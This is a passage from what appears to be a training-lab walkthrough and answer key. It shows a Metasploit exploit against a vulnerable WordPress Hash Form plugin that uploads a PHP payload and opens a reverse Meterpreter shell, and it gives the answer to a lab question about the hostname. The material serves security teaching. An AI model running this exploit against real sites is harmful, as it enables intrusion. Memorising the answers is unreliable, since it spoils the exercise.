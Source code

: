 Subsequently, students will initiate the exploit and obtain a reverse meterpreter shell connection to the target. Note students may be required to run the exploit multiple times to obtain a shell:

Code: shell

```shell
exploit
```

```
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_hash_form_rce) >> exploit

[*] Started reverse TCP handler on 10.10.14.60:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: 4d2a3e8c45
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to https://cube-case.htb/wp-content/uploads/hashform/temp/nsxbzcvq.php
[*] Triggering the payload...
[*] Sending stage (40004 bytes) to 10.129.45.54
[*] Meterpreter session 1 opened (10.10.14.60:4444 -> 10.129.45.54:40652) at 2025-03-20 02:40:18 -0500

(Meterpreter 1)(/var/www/cube-case.htb/wp-content/uploads/hashform/temp) > 
```

Students will use the `sysinfo` command to obtain information about the hostname in the `Computer` parameter in the output:

Code: shell

```shell
sysinfo
```

```
(Meterpreter 1)(/var/www/cube-case.htb/wp-content/uploads/hashform/temp) > sysinfo

Computer    : {hidden}

<SNIP>
```

Answer: `ubuntu`

# Linux Initial Access

## Question 2

### "What is the kernel version used by the Linux target? (Format: x.yy.z)"
